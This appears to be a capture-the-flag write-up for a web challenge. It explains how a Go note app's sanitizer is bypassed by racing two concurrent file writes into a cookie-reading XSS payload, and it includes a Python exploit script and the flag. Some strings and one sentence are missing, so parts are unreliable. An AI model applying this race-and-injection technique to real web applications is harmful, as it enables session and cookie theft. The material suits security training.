



### Source analysis

The Go app has 3 routes (`app/main.go`):
- `POST /create` creates a note, the content goes through the sanitizer then is written to the file `/app/notes/<uuid>`
- `GET /notes/{id}` returns the note with `Content-Type: text/html`
- `PUT /notes/{id}` edits the note.

The note is rendered as HTML, so the goal is to inject XSS and then give the id to the admin bot.

Sanitizer:

```go
func sanitizer(msg string) (string, error) {
	if len(msg) > 128 { return "", fmt.Errorf("too long message") }
	if utf8.ValidString(msg) == false { return "", fmt.Errorf("invalid character") }

	sanitized := bluemonday.StrictPolicy().Sanitize(msg)

	// &lt;\w+
	sanitized = strings.ReplaceAll(sanitized, "&lt;", "<")
	sanitized = strings.ReplaceAll(sanitized, "&gt;", ">")
	var reHTML = regexp.MustCompile(`<(/)?\w+`)
	sanitized = reHTML.ReplaceAllString(sanitized, "")

	return sanitized, nil
}
```

Bluemonday escapes `<` `>` into `&lt;` `&gt;`, then they are unescaped back, and finally the regex removes a `<` that has a word character right after it (e.g. ``. It has no `<` character so the regex ignores it; the `B` at the start is just a filler byte for offset 0.

### Race condition

The rate limit is only set on `/create`, while `PUT /notes/{id}` is under `location /` so it can be spammed freely; plus `proxy_request_buffering off` means requests are fired straight into the app.

The handler writes the note to a file, `O_TRUNC` cuts the file back to 0 then writes from the start, with no lock:

```go
f, _ := os.OpenFile(filePath, os.O_WRONLY|os.O_TRUNC, 0644)
f.Write([]byte(sanitized))
f.Close()
```

Two concurrent PUTs open two separate file descriptors, both overwriting from offset 0. We prepare 2 messages that pass the sanitizer and merge the bytes into the payload.

If the two requests run in the exact order openA, openB, writeB, writeA, then B writes the whole string first, then A overwrites just byte 0, turning `B` into `<`:

```text

```

When `GET` returns it with `text/html`, the src is empty so `onerror` runs `console.log(document.cookie)`.

### Exploitation

Each round fires one A+B pair in parallel, GET checks it, and if the winning payload lands we stop immediately and submit the id to the bot.

```python
#!/usr/bin/env python3
import concurrent.futures as cf
import sys, requests

BASE = "https://ltw.chals.sekai.team"
A_MSG = "&lt;"
B_MSG = "Bimg/src/onerror=console.log(document.cookie)>"
WIN   = ""

s = requests.Session()

def create_note():
    r = s.post(f"{BASE}/create", data={"message": "init"}, allow_redirects=False, timeout=10)
    if r.status_code == 429:
        sys.exit("[!] rate limited /create")
    return r.headers["Location"].rsplit("/", 1)[-1]

def put(nid, msg):
    return s.put(f"{BASE}/notes/{nid}", data={"message": msg}, allow_redirects=False, timeout=10)

def get(nid):
    return s.get(f"{BASE}/notes/{nid}", timeout=10).text

def main():
    nid = create_note()
    print("[*] note id:", nid)
    pool = cf.ThreadPoolExecutor(max_workers=2)
    for i in range(1, 4001):
        fa = pool.submit(put, nid, A_MSG); fb = pool.submit(put, nid, B_MSG)
        fa.result(); fb.result()
        if get(nid) == WIN:
            print(f"[+] WON round {i} -> {BASE}/notes/{nid}")
            return
    print("[!] failed, retry")

main()
```



Submit the id to the admin bot:



### Flag

```
SEKAI{l0g1c_l1v3s_1n_c0d3..._vuln_l1v3s_1n_t1m3!}
```
